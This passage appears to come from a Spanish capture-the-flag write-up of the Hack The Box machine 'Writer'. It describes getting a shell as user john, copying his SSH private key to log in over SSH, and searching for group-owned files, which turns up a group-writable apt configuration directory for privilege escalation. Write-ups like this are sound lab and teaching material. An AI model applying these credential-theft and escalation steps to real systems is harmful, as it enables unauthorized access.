 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_johnRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Si si si, tamos como el usuario `john` dentro del sistemaaaaaaaaaa (: Hagamos [tratamiento del TTY](https://lanzt.gitbook.io/cheatsheet-pentest/tty) y veamos con que nos encontramos ahora...

...

Recorriendo el directorio `/home/john` tenemos la carpeta `.ssh` y dentro su llave privada (`id_rsa`):

```bash
john@writer:/home/john/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```

Pues recordemos que una llave privada es como una contraseña, así que tomémosla, nos la llevamos a nuestro sistema, le damos los permisos necesarios (`chmod 600 <file>`) e intentamos obtener una Shell por **SSH** como `john`:

```bash
❱ ssh john@10.10.11.101 -i john.rsa
```

Y efectivamente, obtenemos una Shell (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Revisando los grupos en los que esta `john` notamos uno claramente distinto y llamativo:

```bash
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

Pues volvemos a hacer lo que hicimos con `kyle`, busquemos objetos relacionados con ese grupo:

```bash
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
```

Una carpeta (parece), validemos:

```bash
john@writer:~$ cat /etc/apt/apt.conf.d
cat: /etc/apt/apt.conf.d: Is a directory
john@writer:~$ ls -la /etc/apt/apt.conf.d
total 48
drwxrwxr-x 2 root management 4096 Oct 14 16:56 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
```
